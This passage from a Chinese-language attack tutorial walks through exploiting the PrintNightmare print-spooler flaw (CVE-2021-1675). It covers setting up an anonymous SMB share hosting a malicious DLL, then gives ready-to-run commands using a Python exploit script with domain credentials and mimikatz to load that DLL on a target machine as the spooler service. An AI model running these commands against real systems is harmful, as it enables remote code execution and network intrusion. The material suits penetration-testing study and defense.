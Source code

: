 找到 C:\share 目录，右键—>属性，找到共享框，然后将 Everyone 添加进去，点击共享即可：

![截图](562069b997d6379e57218c799088b4c2.png)

注：创建匿名共享的 Windows 服务器不需要在域内，但是该机器的防火墙需开放 445 端口！

### 3.漏洞利用

创建完匿名共享后，就可以进行漏洞利用了。如下演示使用 python 脚本和mimikatz 进行漏洞利用，匿名共享的路径是\10.211.55.7\share\1.dll。

#### （1）使用 python 脚本攻击

使用 CVE-2021-1675.py 脚本执行如下命令进行漏洞利用，漏洞利用完成后会将我们的恶意 dll 文件上传到目标机器的`C:\Windows\System32\spool\drivers\x64\3`目录下并执行。

```
python3 CVE-2021-1675.py xie.com/test:P@ss1234@10.211.55.14 '\\10.211.55.7\share\1.dll'
```

如图所示，可以看到漏洞利用完成后，即可看到目标机器 10.211.55.14 上线，并且上线的进程是 spoolsv.exe 打印机服务的进程。

![截图](6b4bf00c8afacf31bd098e7cfc80b5f3.png)

#### （2）使用 mimikatz 攻击

使用 mimikatz 执行如下命令进行漏洞利用，漏洞利用完成后会将我们的恶意dll 文件上传到目标机器的 `C:\Windows\System32\spool\drivers\x64\3\old\2`目录下并执行。

```
mimikatz.exe "misc::printnightmare /server:10.211.55.14 /library:\\10.211.55.7\share\1.dll"
```